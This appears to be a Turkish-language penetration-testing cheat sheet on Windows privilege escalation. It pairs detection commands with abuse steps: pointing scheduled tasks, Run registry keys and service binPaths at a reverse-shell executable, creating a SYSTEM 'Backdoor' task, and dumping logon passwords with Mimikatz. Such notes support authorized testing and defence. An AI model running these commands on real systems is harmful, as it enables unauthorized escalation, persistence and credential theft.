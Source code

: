 **Windows Privilege Escalation: Abusing Scheduled Tasks and Startup Applications (Zamanlanmış Görevler ve Başlangıç Uygulamalarının Kötüye Kullanılması)**

Windows’ta zamanlanmış görevler ve başlangıç uygulamaları, genellikle sistem bakımını veya uygulama güncellemelerini otomatikleştirmek için kullanılır. Yanlış yapılandırıldıklarında veya zafiyet barındırdıklarında, saldırganlar tarafından privilege escalation amacıyla kullanılabilir.

---

### **4.1. Zamanlanmış Görevlerin Kötüye Kullanılması (Abusing Scheduled Tasks)**

Zamanlanmış görevler, belirli bir zamanda veya olay tetiklendiğinde çalışan komutlar veya programlardır. Bu görevlerin izinleri zayıfsa veya saldırgan tarafından değiştirilebiliyorsa, kötüye kullanılabilir.

#### **Tespit**
1. Zamanlanmış görevleri listelemek için:
   ```cmd
   schtasks /query /fo LIST /v
   ```
   veya PowerShell ile:
   ```powershell
   Get-ScheduledTask | fl
   ```
2. Özellikle SYSTEM yetkisiyle çalışan görevlerin `Action` kısmını kontrol edin.

#### **Kötüye Kullanma**
1. Yazılabilir bir görev bulun:
   ```cmd
   accesschk.exe -uwcqv "Authenticated Users" C:\Windows\Tasks
   ```
2. Görevi zararlı bir payload ile değiştirin:
   ```cmd
   schtasks /change /tn "TaskName" /tr "C:\reverse_shell.bat"
   ```
3. Görevi tetikleyin:
   ```cmd
   schtasks /run /tn "TaskName"
   ```

---

### **4.2. Yazılabilir Zamanlanmış Görev Dosyaları (Writable Scheduled Task Files)**

Zamanlanmış görev dosyaları genellikle `C:\Windows\System32\Tasks` dizininde saklanır. Bu dosyaların yazılabilir olması, saldırganların görev tanımlarını değiştirmesine olanak tanır.

#### **Tespit**
1. Yazılabilir görev dosyalarını bulmak için:
   ```cmd
   icacls C:\Windows\System32\Tasks
   ```

#### **Kötüye Kullanma**
1. Görev dosyasını düzenleyerek zararlı bir komut ekleyin.
2. Görevi yeniden başlatarak payload'ı çalıştırın.

---

### **4.3. Başlangıç Uygulamalarının Kötüye Kullanılması (Abusing Startup Applications)**

Windows, sistem başlangıcında çalıştırılacak uygulamaları belirlemek için çeşitli yollar kullanır. Bu başlangıç mekanizmaları, saldırganlar için bir giriş noktası olabilir.

#### **Tespit**
1. Başlangıç uygulamalarını kontrol etmek için:
   - **Kayıt Defteri Anahtarları**:
     ```cmd
     reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
     reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
     ```
   - **Başlangıç Klasörleri**:
     ```cmd
     dir "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
     dir "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup"
     ```

#### **Kötüye Kullanma**
1. Yazılabilir bir kayıt defteri anahtarı veya dosya bulun.
2. Payload ekleyin:
   ```cmd
   reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v MyPayload /t REG_SZ /d "C:\reverse_shell.exe"
   ```

---

### **4.4. Zayıf İzinlere Sahip Hizmetler (Weak Permissions in Services)**

Başlangıçta çalışan bazı hizmetlerin yürütme izinleri zayıf olabilir.

#### **Tespit**
1. Hizmet izinlerini kontrol edin:
   ```cmd
   accesschk.exe -uwcqv "Authenticated Users" * /svc
   ```

#### **Kötüye Kullanma**
1. Yazılabilir bir hizmet bulun.
2. Hizmet yolunu değiştirin:
   ```cmd
   sc config ServiceName binPath= "C:\reverse_shell.exe"
   ```
3. Hizmeti yeniden başlatın:
   ```cmd
   net stop ServiceName && net start ServiceName
   ```

---

### **4.5. Görev Yöneticisi (Task Scheduler) ile Yeni Görev Oluşturma**

Zamanlanmış bir görev oluşturarak, sistem başlangıcında veya belirli bir olayda payload çalıştırabilirsiniz.

#### **Kötüye Kullanma**
1. Yeni bir görev oluşturun:
   ```cmd
   schtasks /create /tn "Backdoor" /tr "C:\reverse_shell.exe" /sc onlogon /ru SYSTEM
   ```
2. Görevi tetikleyin:
   ```cmd
   schtasks /run /tn "Backdoor"
   ```

---

### **4.6. Yüksek Yetkili Zamanlanmış Görevlerin Çalınması**

Bazı zamanlanmış görevler, yüksek yetkili kullanıcıların (ör. SYSTEM veya Admin) kimlik bilgilerini içerir.

#### **Kötüye Kullanma**
1. Görev çalıştırıldığında `Mimikatz` ile kimlik bilgilerini alın:
   ```cmd
   mimikatz.exe
   sekurlsa::logonpasswords
   ```

---

### **Araçlar**
- **AccessChk:** Dosya ve görev izinlerini kontrol etmek için.
- **Autoruns:** Başlangıç uygulamalarını detaylı şekilde listelemek için.
- **Mimikatz:** Zamanlanmış görevlerde kullanılan kimlik bilgilerini çalmak için.

---
